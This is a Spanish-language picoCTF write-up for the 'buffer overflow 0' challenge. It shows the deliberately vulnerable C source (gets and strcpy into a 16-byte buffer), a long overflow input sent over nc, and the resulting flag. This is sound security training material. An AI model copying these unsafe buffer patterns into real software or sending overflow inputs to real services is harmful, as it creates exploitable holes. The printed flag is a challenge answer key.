 # buffer overflow 0

## Descripcion Reto
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c). And connect with it using: `nc saturn.picoctf.net 61481`

## Pistas
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3. Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución
```bash
┌──(kali㉿kali)-[~/hacking/picoBinary/b0]
└─$ wget 'https://artifacts.picoctf.net/c/174/vuln'
--2023-05-14 15:24:11--  https://artifacts.picoctf.net/c/174/vuln
Resolviendo artifacts.picoctf.net (artifacts.picoctf.net)... 18.154.132.88, 18.154.132.74, 18.154.132.108, ...
Conectando con artifacts.picoctf.net (artifacts.picoctf.net)[18.154.132.88]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 16016 (16K) [application/octet-stream]
Grabando a: «vuln»

vuln                 100%[=====================>]  15.64K  --.-KB/s    en 0.07s   

2023-05-14 15:24:17 (215 KB/s) - «vuln» guardado [16016/16016]

                                                                                   
┌──(kali㉿kali)-[~/hacking/picoBinary/b0]
└─$ wget 'https://artifacts.picoctf.net/c/174/vuln.c'
--2023-05-14 15:25:39--  https://artifacts.picoctf.net/c/174/vuln.c
Resolviendo artifacts.picoctf.net (artifacts.picoctf.net)... 18.154.132.74, 18.154.132.108, 18.154.132.88, ...
Conectando con artifacts.picoctf.net (artifacts.picoctf.net)[18.154.132.74]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 808 [application/octet-stream]
Grabando a: «vuln.c»

vuln.c               100%[=====================>]     808  --.-KB/s    en 0.001s  

2023-05-14 15:25:45 (899 KB/s) - «vuln.c» guardado [808/808]


┌──(kali㉿kali)-[~/hacking/picoBinary/b0]
└─$ ls -la
total 20
drwxrwx--- 1 root vboxsf     0 may 14 15:25 .
drwxrwx--- 1 root vboxsf     0 may 14 15:23 ..
-rwxrwx--- 1 root vboxsf 16016 mar 15 21:15 vuln
-rwxrwx--- 1 root vboxsf   808 mar 15 21:15 vuln.c

┌──(kali㉿kali)-[~/hacking/picoBinary/b0]
└─$ file vuln                                  
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
                                                                                   
┌──(kali㉿kali)-[~/hacking/picoBinary/b0]
└─$ ./vuln          
Please create 'flag.txt' in this directory with your own debugging flag.


```

```c++
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

```bash
┌──(kali㉿kali)-[~/hacking/picoBinary/b0]
└─$ nc saturn.picoctf.net 61481
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
```

## Bandera
* picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}

## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
|  |  |

## Referencias
- []()